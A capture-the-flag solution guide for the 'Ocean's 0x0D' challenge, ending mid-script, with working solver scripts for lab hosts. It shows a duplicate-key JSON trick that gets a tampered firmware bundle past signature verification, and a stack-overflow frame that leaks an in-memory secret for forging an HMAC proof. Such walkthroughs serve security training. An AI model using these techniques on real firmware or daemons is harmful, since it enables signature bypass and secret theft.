


# Ocean's 0x0D

This solution guide provides the methods and techniques required to fully solve the Ocean's 0x0D (13) challenge.

## Question 1 - House Rhythm
***The CAGE terminal requires a valid shift sync before it will print receipts. Use live MQTT roulette telemetry to derive the current Shift Sync code and submit it in the CAGE terminal.***

### Goal

Recover the **current shift sync code** from live MQTT roulette telemetry, submit it to the terminal **sync** action, then print the latest receipt to reveal **TOKEN1**.

### What to watch

You only need two MQTT topics (under the base topic, usually `casino/cage`):

* **Rules beacon (retained):**
  `casino/cage/telemetry/roulette/rhythm`

* **Spin stream (continuous):**
  `casino/cage/telemetry/roulette/spin`

The broker is:

* `roulette-telemetry.pccc:1883`


### Step 1 — Subscribe and read the rules beacon

The rules beacon is **retained**, so you can grab it immediately:

```bash
mosquitto_sub -h roulette-telemetry.pccc -p 1883 -t 'casino/cage/telemetry/roulette/rhythm' -v
```

You’ll get JSON like:

* `bucket_seconds` (time window per bucket)
* `bits_per_bucket` (how many bits to extract)
* `carrier_slots` (slot indices that carry bits; typically prime slots)
* `bit_mapping` (odd → 1, even → 0)
* `marker` (slot 0 uses pocket `"00"` as a sync anchor)
* `output_mode` (`base32` or `hex`)

### Step 2 — Capture one complete bucket of spins

Subscribe to spins:

```bash
mosquitto_sub -h roulette-telemetry.pccc -p 1883 -t 'casino/cage/telemetry/roulette/spin' -v
```

Each spin includes:

* `bucket` (bucket index)
* `slot` (spin index inside that bucket)
* `marker` (true only at `slot == 0`)
* `pocket`, `color`, `parity`

**Sync anchor:** the start of each bucket is clearly marked by:

* `slot: 0`
* `marker: true`
* `pocket: "00"`

Collect spins for a single bucket until you have all `carrier_slots` you need (enough to produce `bits_per_bucket` bits).

### Step 3 — Extract bits from carrier spins

For each spin where `slot` is in `carrier_slots`:

* if `parity == "odd"` → bit = `1`
* if `parity == "even"` → bit = `0`
* ignore the marker spin and ignore all other slots (noise)

Take carrier spins in **the order listed** in `carrier_slots` (that’s the intended order).

## Step 4 — Convert bits into the sync code

Bits are packed **MSB-first** into bytes (8 bits per byte), then encoded based on `output_mode`:

* `hex`: lowercase hex of the bytes
* `base32`: **uppercase base32 without padding** (`=` removed)


### Step 5 — Submit the sync code in the terminal

In the dashboard terminal UI, use **Shift Sync** (or equivalent “sync” action) and submit:

* `bucket` (the one you decoded)
* `code` (derived above)

Implementation note: most deployments accept **current bucket** and often **previous bucket** as a latency grace window.


### Step 6 — Print the receipt to get TOKEN1

Once synced, print/retrieve the latest receipt (via the terminal “latest receipt” action). The receipt output includes **TOKEN1**.

### Reference solver script (copy/paste)

This script listens until it completes one bucket, then prints the derived sync code:

```python
#!/usr/bin/env python3
"""
Token 1 solver (Ocean's 0x0D)

- Subscribes to MQTT roulette rhythm: casino/cage/telemetry/roulette/spin
- Collects a full bucket (slot 0 marker + slots 1..64 carry bits)
- Builds the 16-hex sync code and POSTs /api/ops/sync
- Reads /api/ops/receipt/latest to print TOKEN 1

Requires: pip install paho-mqtt requests
"""

from __future__ import annotations
from typing import Optional, Tuple, Dict

import argparse
import json
import time
from typing import Dict, Optional, Tuple

import requests
import paho.mqtt.client as mqtt


def bits_to_hex64(bits_0_1) -> str:
    # 64 bits -> 8 bytes, MSB-first, then lowercase hex (16 chars)
    out = bytearray()
    for i in range(0, 64, 8):
        b = 0
        for j in range(8):
            b = (b << 1) | (bits_0_1[i + j] & 1)
        out.append(b)
    return out.hex()


def http_json(method: str, url: str, **kwargs) -> dict:
    r = requests.request(method, url, timeout=10, **kwargs)
    if not (200 <= r.status_code < 300):
        try:
            detail = r.json()
        except Exception:
            detail = r.text
        raise RuntimeError(f"{method} {url} -> {r.status_code}: {detail}")
    return r.json()


class BucketCollector:
    def __init__(self):
        self.bucket: Optional[int] = None
        self.slots: Dict[int, int] = {}  # slot -> bit

    def feed(self, msg: dict) -> Optional[Tuple[int, str]]:
    # Guard: ignore non-spin / partial telemetry messages
        if "bucket" not in msg or "slot" not in msg:
            return None

        if msg["bucket"] is None or msg["slot"] is None:
            return None

        try:
            b = int(msg["bucket"])
            slot = int(msg["slot"])
        except (ValueError, TypeError):
            return None

        marker = bool(msg.get("marker", False))
        parity = msg.get("parity")  # "odd" / "even" / None

        # Start a new bucket only on marker slot 0
        if slot == 0 and marker:
            self.bucket = b
            self.slots.clear()
            return None

        if self.bucket is None or b != self.bucket:
            return None

        if 1 <= slot <= 64 and parity in ("odd", "even"):
            self.slots[slot] = 1 if parity == "odd" else 0

        if len(self.slots) == 64:
            bits = [self.slots[i] for i in range(1, 65)]
            code = bits_to_hex64(bits)
            done_bucket = self.bucket

            # reset for next run
            self.bucket = None
            self.slots.clear()

            return (done_bucket, code)

        return None


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("--base", default="http://vaultcore.pccc:8080",required=False, help="e.g. http://vaultcore.pccc:8080")
    ap.add_argument("--mqtt-host", default="roulette-telemetry.pccc")
    ap.add_argument("--mqtt-port", type=int, default=1883)
    ap.add_argument("--mqtt-topic", default="casino/cage/telemetry/roulette/spin")
    ap.add_argument("--timeout", type=int, default=120, help="seconds to wait for a full bucket")
    args = ap.parse_args()

    base = args.base.rstrip("/")

    collector = BucketCollector()
    result: Optional[Tuple[int, str]] = None

    def on_connect(client, userdata, flags, rc, properties=None):
        if rc != 0:
            raise RuntimeError(f"MQTT connect failed rc={rc}")
        client.subscribe(args.mqtt_topic, qos=0)

    def on_message(client, userdata, msg):
        nonlocal result
        try:
            payload = json.loads(msg.payload.decode("utf-8", errors="replace"))
        except Exception:
            return
        got = collector.feed(payload)
        if got:
            result = got
            client.disconnect()

    client = mqtt.Client(mqtt.CallbackAPIVersion.VERSION2)
    client.on_connect = on_connect
    client.on_message = on_message

    client.connect(args.mqtt_host, args.mqtt_port, keepalive=20)

    t0 = time.time()
    while result is None and (time.time() - t0) < args.timeout:
        client.loop(timeout=1.0)

    if result is None:
        raise RuntimeError("Timed out waiting for a full bucket (marker + 64 carrier slots).")

    bucket, code = result
    print(f"[*] Decoded bucket={bucket} sync={code}")

    print("[*] POST /api/ops/sync ...")
    http_json("POST", f"{base}/api/ops/sync", json={"sync": code, "bucket": bucket})

    receipt = http_json("GET", f"{base}/api/ops/receipt/latest")
    print("\n✅ TOKEN 1:", receipt.get("token"))
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

Sample Output:

```bash
┌──(user㉿aac74c573c03)-[~/working/final]
└─$ python3 t1_solver.py 
[*] Decoded bucket=39333997 sync=8d2b3140fc3974c3
[*] POST /api/ops/sync ...

✅ TOKEN 1: PCCC{0D-01-0619-SEao}
```

## Answer

The value of `TOKEN1` is the answer to this question.

## Question 2
***The vault controller accepts signed firmware bundles. Your objective is to upload a bundle that **passes verification** but causes the installer to execute a **blueprint install plan**. Start by pulling an official bundle from the firmware catalog (/api/fw/download/`id`), then craft a modified bundle that is still accepted by verification while changing the installer’s effective behavior.***

### Objective

Recover Token 2 by exploiting a **firmware manifest parser mismatch**:

* The **verifier** computes signature validity using a JSON view where **the last duplicate key wins**
* The **installer** reads the manifest using a parser where **the first duplicate key wins**

You will upload a firmware bundle whose signature remains valid to the verifier, but whose installer-side interpretation flips the firmware into **blueprint mode**, awarding Token 2.

The core idea is a real-world class of bug: **parser differentials and normalized-view vs effective-view mismatches**.

## Step 1 — Pull the official firmware bundle

First, query the firmware catalog to find the active `release_id`.

```bash
curl -s http://vaultcore.pccc:8080/api/fw/catalog | jq
```

You’ll see something like:

```json
{
  "releases": [
    {
      "id": "fw-runtime-2.4.7-a13f9c",
      "version": "2.4.7",
      "notes": "Operational stability update"
    }
  ]
}
```

Copy the **exact** `id` field (it’s intentionally not static).

Download the bundle:

```bash
RID="fw-runtime-2.4.7-a13f9c"
curl -s -o fw.tar "http://vaultcore.pccc:8080/api/fw/download/${RID}"
```

Extract it:

```bash
mkdir -p fw_official
tar -xf fw.tar -C fw_official
ls -la fw_official
```

Expected files:

* `manifest.json`
* `payload.bin`
* `sig.bin`

## Step 2 — Inspect the manifest to understand what’s signed

Open the manifest:

```bash
cat fw_official/manifest.json | jq .
```

You should see fields including an **install plan** (a list of operations), something like:

```json
{
  "release_id": "...",
  "version": "...",
  "sha256_payload": "...",
  "install_plan": [
    {"op":"install","target":"vaultcore","payload":"payload.bin"},
    {"op":"set_mode","value":"normal"}
  ],
  "ts": 1730000000
}
```

### Why the install_plan matters

The installer does not simply read `"mode"`. It executes an **install_plan** (a small DSL).
This means we can aim to make the installer execute an operation like:

* `enable_blueprint`
* `set_mode: blueprint`

…but we must still keep the verifier satisfied.

3) Identify the mismatch you’ll exploit

The challenge is built around this real security failure mode:

* The verifier validates a *normalized view* of the manifest (and/or uses a different JSON semantic policy)
* The installer uses a *different parse* or *different precedence rules*, producing a different “effective plan”

In this build:

* **Verifier interpretation:** *last duplicate key wins*
* **Installer interpretation:** *first duplicate key wins*
* Signature checks remain valid only if the verifier’s final view matches what was originally signed.

So the winning strategy is:

> Create a manifest that contains **two `install_plan` keys**.
>
> * Put the **blueprint plan first** (installer sees it).
> * Put the **original plan last** (verifier sees it, preserving signature validity).

This is more complex than “duplicate `mode`” because:

* you must craft a valid plan
* you must keep the verifier-visible plan identical to the signed plan
* you must not accidentally alter other signed/checked fields (like payload hash)

## Step 4 — Create a duplicate-key manifest safely

Important: most JSON serializers will not preserve duplicate keys.
You need to write the manifest as **raw JSON text**.

### Construct the malicious manifest

We will:

* keep `release_id`, `version`, `sha256_payload`, etc. identical to the original
* keep `payload.bin` and `sig.bin` identical
* replace `manifest.json` with a version that contains **two install_plan keys**:

**First plan** (installer executes): blueprint activation
**Last plan** (verifier validates): original signed normal install

Example structure:

```json
{
  "release_id":"<same>",
  "version":"<same>",
  "sha256_payload":"<same>",
  "install_plan":[
    {"op":"enable_blueprint"},
    {"op":"install","target":"vaultcore","payload":"payload.bin"},
    {"op":"set_mode","value":"blueprint"}
  ],
  "install_plan":[
    {"op":"install","target":"vaultcore","payload":"payload.bin"},
    {"op":"set_mode","value":"normal"}
  ],
  "ts": 1730000000
}
```

### A safe way to generate it (python)

This script reads the official manifest and writes a new one with duplicate `install_plan` keys:

```python
import json

with open("fw_official/manifest.json","r") as f:
    m = json.load(f)

release_id = m["release_id"]
version = m["version"]
sha = m["sha256_payload"]
ts = m.get("ts", 0)

orig_plan = m["install_plan"]

blueprint_plan = [
    {"op":"enable_blueprint"},
    {"op":"install","target":"vaultcore","payload":"payload.bin"},
    {"op":"set_mode","value":"blueprint"},
]

# Write raw JSON with duplicated install_plan keys (first = blueprint, last = original)
raw = (
    "{"
    f"\"release_id\":{json.dumps(release_id)},"
    f"\"version\":{json.dumps(version)},"
    f"\"sha256_payload\":{json.dumps(sha)},"
    f"\"install_plan\":{json.dumps(blueprint_plan, separators=(',',':'))},"
    f"\"install_plan\":{json.dumps(orig_plan, separators=(',',':'))},"
    f"\"ts\":{json.dumps(ts)}"
    "}"
)

with open("manifest_dupe.json","w") as f:
    f.write(raw)

print("Wrote manifest_dupe.json")
```

Run it from the directory containing `fw_official/`:

```bash
python3 make_dupe_manifest.py
```

Validate that the file truly contains duplicate keys:

```bash
grep -o '"install_plan"' -n manifest_dupe.json | wc -l
```

You should see `2`.


## Step 5 — Repack the firmware bundle (keep signature + payload unchanged)

Create a working directory:

```bash
mkdir -p fw_work
cp fw_official/payload.bin fw_work/
cp fw_official/sig.bin fw_work/
cp manifest_dupe.json fw_work/manifest.json
```

Repack:

```bash
tar -cf fw_blueprint.tar -C fw_work .
```

Sanity check the manifest inside the tar:

```bash
tar -xf fw_blueprint.tar -O manifest.json | head -c 300 ; echo
```

You should visually see two `install_plan` entries in sequence.


## Step 6 — Upload the modified bundle

Upload via multipart form:

```bash
curl -s -X POST http://vaultcore.pccc:8080/api/fw/upload \
  -F "file=@fw_blueprint.tar" | jq
```

### Expected behavior

* Verification should succeed (because the verifier uses the **last** `install_plan` and that matches the signed bundle’s semantics).
* Installer should execute blueprint mode (because it uses the **first** `install_plan`).

You’ll typically get a response indicating acceptance. In some builds, it may explicitly indicate the effective mode/plan.


## Step 7 — Retrieve the Blueprint Slip (TOKEN2)

Once blueprint mode has been activated:

```bash
curl -s http://vaultcore.pccc:8080/api/ops/maintenance/blueprint-slip | jq
```

### Reference Solver Script

The script below will automtically performing all the steps above in sequence, create the appropriate firmware update, upload it back to the `vaultcore` system and retrieve the second token:

```python
#!/usr/bin/env python3
"""
Token 2 solver (Ocean's 0x0D)

- Downloads firmware
- Creates new bundle
- Modifies it to use the duplicate manifest technique
- Submits it to recover token 2
"""

import io
import json
import tarfile
import time
import requests

VAULTCORE_BASE = "http://vaultcore.pccc:8080"
TIMEOUT = 90  # upload can be slow; don't use 30s

def die(msg):
    raise SystemExit(msg)

def get_release_id():
    r = requests.get(f"{VAULTCORE_BASE}/api/fw/catalog", timeout=TIMEOUT)
    r.raise_for_status()
    releases = r.json().get("releases", [])
    if not releases:
        die("[!] No releases in catalog")
    rid = releases[0]["id"]
    print(f"[*] Using release_id: {rid}")
    return rid

def download_bundle(rid: str) -> bytes:
    url = f"{VAULTCORE_BASE}/api/fw/download/{rid}"
    r = requests.get(url, timeout=TIMEOUT)
    r.raise_for_status()
    data = r.content
    print(f"[*] Downloaded firmware bundle: {len(data)} bytes")
    return data

def extract_bundle(bundle_bytes: bytes):
    manifest_bytes = None
    payload_bytes = None
    sig_bytes = None

    with tarfile.open(fileobj=io.BytesIO(bundle_bytes), mode="r:*") as tf:
        for m in tf.getmembers():
            if m.name == "manifest.json":
                manifest_bytes = tf.extractfile(m).read()
            elif m.name == "payload.bin":
                payload_bytes = tf.extractfile(m).read()
            elif m.name == "sig.bin":
                sig_bytes = tf.extractfile(m).read()

    if manifest_bytes is None or payload_bytes is None or sig_bytes is None:
        die("[!] Bundle missing one of: manifest.json payload.bin sig.bin")

    print("[*] Extracted manifest.json, payload.bin, sig.bin")
    return manifest_bytes, payload_bytes, sig_bytes

def make_duplicate_key_manifest(original_manifest_bytes: bytes) -> bytes:
    """
    Build a manifest.json that contains TWO install_plan keys:
      - FIRST: malicious blueprint plan (installer sees this)
      - LAST : original install_plan (verifier sees this; signature stays valid)
    """
    original = json.loads(original_manifest_bytes.decode("utf-8"))
    if "install_plan" not in original:
        die("[!] Original manifest missing install_plan")

    original_plan = original["install_plan"]

    # Malicious plan: must satisfy installer checks:
    # saw_install + bp_enabled + mode=="blueprint"
    malicious_plan = [
        {"op": "install", "path": "/opt/vault/fw/payload.bin"},
        {"op": "enable_blueprint"},
        {"op": "set_mode", "value": "blueprint"},
    ]

    # Build JSON manually to preserve duplicate keys.
    # Verifier uses json.loads -> last install_plan wins -> original_plan.
    # Installer uses first-key parser -> first install_plan wins -> malicious_plan.
    other_keys = {k: v for k, v in original.items() if k != "install_plan"}

    # Keep it compact; whitespace irrelevant.
    def j(x): return json.dumps(x, separators=(",", ":"), ensure_ascii=False)

    parts = []
    parts.append("{")
    parts.append(f"\"install_plan\":{j(malicious_plan)},")

    # include all other keys exactly once
    # order doesn't matter for verifier canonicalization (it sorts keys anyway)
    for i, (k, v) in enumerate(other_keys.items()):
        parts.append(f"\"{k}\":{j(v)},")
    # final duplicate key must be last and match original plan exactly
    parts.append(f"\"install_plan\":{j(original_plan)}")
    parts.append("}")

    out = "".join(parts).encode("utf-8")

    # Sanity: verifier parse must equal original dict (last wins -> original install_plan)
    verifier_view = json.loads(out.decode("utf-8"))
    if verifier_view != original:
        die("[!] Sanity failed: verifier_view != original (signature would break)")

    print("[*] Built duplicate-key manifest (install_plan x2) while preserving verifier view")
    return out

def repack_bundle(manifest_bytes: bytes, payload_bytes: bytes, sig_bytes: bytes) -> bytes:
    bio = io.BytesIO()
    with tarfile.open(fileobj=bio, mode="w") as tf:
        def add(name: str, b: bytes):
            ti = tarfile.TarInfo(name=name)
            ti.size = len(b)
            ti.mtime = int(time.time())
            tf.addfile(ti, io.BytesIO(b))

        add("manifest.json", manifest_bytes)
        add("payload.bin", payload_bytes)
        add("sig.bin", sig_bytes)

    data = bio.getvalue()
    print(f"[*] Repacked modified bundle: {len(data)} bytes")
    return data

def write_file(fname: str, data: bytes):
    with open(fname, "wb") as f:
        f.write(data)
    print(f"[*] Wrote: {fname}")

def upload_bundle(bundle_bytes: bytes):
    url = f"{VAULTCORE_BASE}/api/fw/upload"
    files = {"file": ("vault-fw-evil.tar", bundle_bytes, "application/x-tar")}
    r = requests.post(url, files=files, timeout=TIMEOUT)
    print(f"[*] Upload status: {r.status_code}")
    try:
        print(json.dumps(r.json(), indent=2))
    except Exception:
        print(r.text)
    return r

def fetch_blueprint_slip():
    url = f"{VAULTCORE_BASE}/api/ops/maintenance/blueprint-slip"
    r = requests.get(url, timeout=TIMEOUT)
    print(f"[*] Slip status: {r.status_code}")
    try:
        print(json.dumps(r.json(), indent=2))
    except Exception:
        print(r.text)
    return r

def main():
    print(f"[*] VAULTCORE_BASE = {VAULTCORE_BASE}")
    rid = get_release_id()

    bundle = download_bundle(rid)
    manifest_b, payload_b, sig_b = extract_bundle(bundle)

    original = json.loads(manifest_b.decode("utf-8"))
    print(f"[*] Manifest version: {original.get('version')}")

    evil_manifest = make_duplicate_key_manifest(manifest_b)
    evil_bundle = repack_bundle(evil_manifest, payload_b, sig_b)

    out_name = f"fw_blueprint_{rid}.tar"
    write_file(out_name, evil_bundle)

    # Upload it back
    resp = upload_bundle(evil_bundle)
    if resp.status_code >= 500:
        die("[!] Server error on upload")
    if resp.status_code != 200:
        die("[!] Upload failed")

    # If blueprint worked, token2_found will be set; slip endpoint should return token (depending on reveal rules)
    fetch_blueprint_slip()

if __name__ == "__main__":
    main()
```

Sample Output:

```bash
┌──(user㉿aac74c573c03)-[~/working]
└─$ python3 t2_solver.py 
[*] VAULTCORE_BASE = http://vaultcore.pccc:8080
[*] Using release_id: fw-runtime-2.4.7-774348
[*] Downloaded firmware bundle: 10240 bytes
[*] Extracted manifest.json, payload.bin, sig.bin
[*] Manifest version: 2.4.7
[*] Built duplicate-key manifest (install_plan x2) while preserving verifier view
[*] Repacked modified bundle: 10240 bytes
[*] Wrote: fw_blueprint_fw-runtime-2.4.7-774348.tar
[*] Upload status: 200
{
  "ok": true,
  "msg": "firmware accepted",
  "mode": "blueprint"
}
[*] Slip status: 200
{
  "terminal": "ENG-AUDIT-12",
  "ts": 1770028908,
  "auth": "PCCC{0D-02-1321-CmAo}",
  "note": "blueprint access granted"
}
```

## Answer

The answer to this question is the value of `auth` field in the slip (token 2).

## Question 3


### Objective
Exploit the native **replay daemon** indirectly through the vault HTTP proxy, leak the **runtime in-memory ghost secret**, then redeem a short-lived **ghost proof** to unlock Token 3.

### Step 0 — Confirm the environment is ready

**Instruction:** Verify the vault is reachable and check alert state.  
**Why:** The Token 3 interfaces are *alert-gated*; if you’re “hot”, the console seals and spamming makes it worse.

**Command:**

```bash
curl -s http://vaultcore.pccc:8080/api/state | jq
```

**Output:** JSON containing `alert.level` and token flags, e.g.
- `tokens.token2.found: true`
- `tokens.token3.found: false`

### Step 1 — Acquire a one-shot ghost nonce

**Instruction:** Request the Token 3 challenge nonce.  
**Why:** The final redemption requires `HMAC(ghost_secret, "T3|" + nonce)`. The nonce is short-lived and one-shot, so you must get it *before* final redemption.

**Command:**

```bash
curl -s http://vaultcore.pccc:8080/api/ops/ghost/challenge | jq
```

**Output:** Something like:

```json
{
  "nonce_b64": "n8dYl2mIY3k7S3lOeQ9YvQ==",
  "expires_ts": 1767xxxxxx,
  "ttl_seconds": 45
}
```

Save `nonce_b64`.

### Step 2 — Understand the replay frame format

**Instruction:** Build a valid replay frame for the native daemon.  
**Why:** The daemon enforces a **CRC32** over `header + payload`. Invalid CRC triggers penalties / rate limits and won’t reach the vulnerable path.

**Format (bytes):**
- `MAGIC` = `RPLY`
- `ver` = 1 byte
- `flags` = 1 byte
- `payload_len` = 2 bytes (little-endian)
- `payload` = `cmd(1 byte) + cmd_data`
- `crc32` = 4 bytes little-endian of (`header+payload`)

For the vulnerable STAT-like command:
- `cmd = 'S'` (0x53)


### Step 3 — Create a *benign* STAT request first

**Instruction:** Send a minimal `STAT` frame that does **not** overflow.  
**Why:** You want to confirm the request path works and see the baseline response. The response will be “OK <base64>” but the decoded bytes are fake (redacted).

**Command (Python one-liner to build and submit):**

```bash
python3 - <<'PY'
import base64, struct, zlib, json, urllib.request

HOST="HOST"
cmd=b"S"
cmd_data=b"A"*8  # safe length
payload=cmd+cmd_data
header=b"RPLY"+bytes([1,0])+struct.pack("<H",len(payload))
crc=zlib.crc32(header+payload)&0xffffffff
frame=header+payload+struct.pack("<I",crc)
req={"frame_b64": base64.b64encode(frame).decode()}
data=json.dumps(req).encode()
r=urllib.request.urlopen(urllib.request.Request(f"http://{HOST}:8080/api/ops/replay/submit", data=data, headers={"Content-Type":"application/json"}))
print(r.read().decode())
PY
```

**Output:** JSON with `ok: true` and `resp_b64`, e.g.

```json
{"ok":true,"resp_b64":"T0sgQUFBQUFBQUFBQUFB..."}
```

If you base64-decode `resp_b64`, it begins with `OK `.


### Step 4 — Leak the in-memory ghost secret via controlled overflow

**Instruction:** Send a CRC-valid `STAT` request where `cmd_data` is **long enough** to smash the `redact` byte on the stack.  
**Why:** Internally the daemon copies `payload_len-1` bytes into a fixed 64-byte stack buffer using `unsafe copy_nonoverlapping`. If you send >64 bytes, it overwrites the adjacent `redact` byte. Setting `redact` to `0` flips the daemon into **real secret** output.

**Command (overflow attempt):**

```bash
python3 - <<'PY'
import base64, struct, zlib, json, urllib.request

HOST="HOST"
# 64 bytes fills buffer; next byte overwrites `redact`.
# We want redact=0 -> write 0x00 at position 65 of cmd_data.
cmd=b"S"
cmd_data=b"A"*64 + b"\x00" + b"B"*16
payload=cmd+cmd_data
header=b"RPLY"+bytes([1,0])+struct.pack("<H",len(payload))
crc=zlib.crc32(header+payload)&0xffffffff
frame=header+payload+struct.pack("<I",crc)
req={"frame_b64": base64.b64encode(frame).decode()}
data=json.dumps(req).encode()
r=urllib.request.urlopen(urllib.request.Request(f"http://{HOST}:8080/api/ops/replay/submit", data=data, headers={"Content-Type":"application/json"}))
print(r.read().decode())
PY
```

**Output:** JSON `{ "ok": true, "resp_b64": "..." }`

Now decode the daemon response:

**Command:**

```bash
python3 - <<'PY'
import base64, json, sys
# paste resp_b64 here:
resp_b64 = "PASTE_RESP_B64"
raw = base64.b64decode(resp_b64)
print(raw[:120])
b64 = raw.split(b" ",1)[1].strip()
secret = base64.b64decode(b64)
print("secret_len", len(secret))
print("secret_hex", secret.hex())
PY
```

**Output:**
- raw begins with `b'OK '`
- `secret_len` should be `32`
- `secret_hex` is the **real ghost secret** (32 bytes)

If `secret_len` is 32 but the value is deterministic nonsense (e.g., a simple arithmetic pattern), your overflow didn’t flip redact; adjust the offset by a few bytes and re-test.


### Step 5 — Compute the ghost proof (HMAC) using the nonce

**Instruction:** Compute `tag = HMAC-SHA256(ghost_secret, b"T3|" + nonce)` and build `proof_b64 = base64(nonce || tag)`.  
**Why:** The vault never accepts the ghost secret directly. You must prove you possess it via a keyed MAC, preventing casual exfil/guess attacks.

**Command:**

```bash
python3 - <<'PY'
import base64, hmac, hashlib

nonce_b64 = "PASTE_NONCE_B64"
ghost_secret_hex = "PASTE_SECRET_HEX"

nonce = base64.b64decode(nonce_b64)
secret = bytes.fromhex(ghost_secret_hex)

tag = hmac.new(secret, b"T3|" + nonce, hashlib.sha256).digest()
proof = nonce + tag
print("proof_b64:", base64.b64encode(proof).decode())
PY
```

**Output:** a `proof_b64` string.

### Step 6 — Redeem the proof and print the Token 3 slip

**Instruction:** Redeem the proof.  
**Why:** This flips `token3_found` server-side, which triggers the dashboard and enables the maintenance slip endpoint.

**Command:**

```bash
curl -s -X POST http://vaultcore.pccc:8080/api/ops/ghost/redeem   -H "Content-Type: application/json"   -d '{"proof_b64":"PASTE_PROOF_B64"}' | jq
```

**Output:**

```json
{"ok":true,"msg":"ghost mode engaged"}
```

Now retrieve Token 3:

**Command:**

```bash
curl -s http://vaultcore.pccc:8080/api/ops/maintenance/ghost-slip | jq
```

**Output:** JSON containing:
- `"auth": "PCCC{0D-03...}"`

If you get `"slip intercepted by SOC"`, reduce alert level (stop spamming, wait for decay) and retry.

### Reference Solver Script

The following script automates the process of bruteforcing the `ghost protocol` and leaking the token for retrieval:

```python
#!/usr/bin/env python3
"""
Token 3 Solver
"""

from __future__ import annotations

import argparse
import base64
import hashlib
import hmac
import json
import struct
import time
import urllib.request
import urllib.error
import zlib

DEFAULT_VAULTCORE = "http://vaultcore.pccc:8080"


def http_json(method: str, url: str, *, obj=None, timeout=8.0):
    data = None
    headers = {"Accept": "application/json"}
    if obj is not None:
        data = json.dumps(obj).encode("utf-8")
        headers["Content-Type"] = "application/json"

    req = urllib.request.Request(url, data=data, headers=headers, method=method)
    try:
        with urllib.request.urlopen(req, timeout=timeout) as r:
            raw = r.read()
            try:
                return r.status, dict(r.headers), json.loads(raw.decode("utf-8", errors="replace"))
            except Exception:
                return r.status, dict(r.headers), {"_raw": raw.decode("utf-8", errors="replace")}
    except urllib.error.HTTPError as e:
        raw = e.read()
        try:
            j = json.loads(raw.decode("utf-8", errors="replace"))
        except Exception:
            j = {"_raw": raw.decode("utf-8", errors="replace")}
        return e.code, dict(e.headers), j
    except Exception as e:
        raise RuntimeError(f"{method} {url} -> network error: {e}") from None


def build_frame(cmd: bytes, cmd_data: bytes, *, ver=1, flags=0) -> bytes:
    payload = cmd + cmd_data
    header = b"RPLY" + bytes([ver, flags]) + struct.pack("<H", len(payload))
    crc = zlib.crc32(header + payload) & 0xFFFFFFFF
    return header + payload + struct.pack("<I", crc)


def parse_ok_secret(raw: bytes) -> bytes:
    if not raw.startswith(b"OK "):
        raise RuntimeError(f"unexpected replayd response prefix: {raw[:60]!r}")
    b64 = raw.split(b" ", 1)[1].strip()
    return base64.b64decode(b64)


def looks_like_arithmetic_ramp(b: bytes) -> bool:
    if len(b) < 8:
        return False
    deltas = [(b[i + 1] - b[i]) & 0xFF for i in range(len(b) - 1)]
    return all(d == deltas[0] for d in deltas)


def is_probably_fake(secret: bytes) -> bool:
    if len(secret) != 32:
        return True
    if len(set(secret)) <= 6:
        return True
    if looks_like_arithmetic_ramp(secret):
        return True
    if secret[:16] == secret[16:]:
        return True
    return False


def submit_frame(vaultcore: str, frame: bytes, *, timeout=8.0, max_retries=6):
    """
    Retries politely on 429 with backoff.
    """
    payload = {"frame_b64": base64.b64encode(frame).decode("ascii")}
    backoffs = [2, 5, 10, 20, 30, 45]

    for i in range(max_retries):
        status, headers, j = http_json("POST", f"{vaultcore}/api/ops/replay/submit", obj=payload, timeout=timeout)

        if status == 429:
            ra = headers.get("Retry-After")
            sleep_s = int(ra) if ra and ra.isdigit() else backoffs[min(i, len(backoffs) - 1)]
            print(f"[!] 429 Too Many Requests from /replay/submit. Sleeping {sleep_s}s…")
            time.sleep(sleep_s)
            continue

        if status >= 400:
            raise RuntimeError(f"POST /api/ops/replay/submit -> {status}: {j}")

        if not j.get("ok", False):
            raise RuntimeError(f"replay submit returned ok=false: {j}")

        resp_b64 = j.get("resp_b64", "")
        return base64.b64decode(resp_b64)

    raise RuntimeError("Exceeded retry budget due to repeated 429s. Wait ~65s and try again.")


def get_state(vaultcore: str) -> dict:
    status, _hdrs, j = http_json("GET", f"{vaultcore}/api/state", timeout=6.0)
    if status >= 400:
